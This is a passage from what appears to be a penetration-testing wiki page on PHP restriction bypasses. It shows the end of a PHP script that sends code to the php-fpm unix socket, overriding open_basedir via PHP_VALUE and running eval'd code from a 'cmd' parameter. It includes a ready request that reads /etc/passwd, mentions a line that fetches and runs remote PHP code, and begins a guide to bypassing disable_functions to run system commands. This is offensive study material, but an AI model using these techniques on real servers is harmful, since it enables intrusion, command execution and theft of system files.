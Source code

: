 ```php
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

This scripts will communicate with **unix socket of php-fpm** \(usually located in /var/run if fpm is used\) to execute arbitrary code. The `open_basedir` settings will be overwritten by the **PHP\_VALUE** attribute that is sent.  
Note how `eval` is used to execute the PHP code you send inside the **cmd** parameter.  
Also note the **commented line 324**, you can uncomment it and the **payload will automatically connect to the given URL and execute the PHP code** contained there.  
Just access `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` to get the content of the `/etc/passwd` file.

{% hint style="warning" %}
You may be thinking that just in the same way we have overwritten `open_basedir` configuration we can **overwrite `disable_functions`**. Well, try it, but it won't work, apparently **`disable_functions` can only be configured in a `.ini` php** configuration file and the changes you perform using PHP\_VALUE won't be effective on this specific setting.
{% endhint %}

## disable\_functions Bypass

If you manage have PHP code executing inside a machine you probably want to go to the next level and **execute arbitrary system commands**. In this situation is usual to discover that most or all the PHP **functions** that allow to **execute system commands have been disabled** in **`disable_functions`.**  
So, lets see how you can bypass this restriction \(if you can\)

### Automatic bypass discovery

You can use the tool [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) and it will indicate you which technique you can use to bypass `disable_functions`.

### Bypassing using other system functions

Just return to the begging of this page and **check if any of the command executing functions isn't disabled and available in the environment**. If you find just 1 of them, you will be able to use it to execute arbitrary system commands.

### LD\_PRELOAD bypass
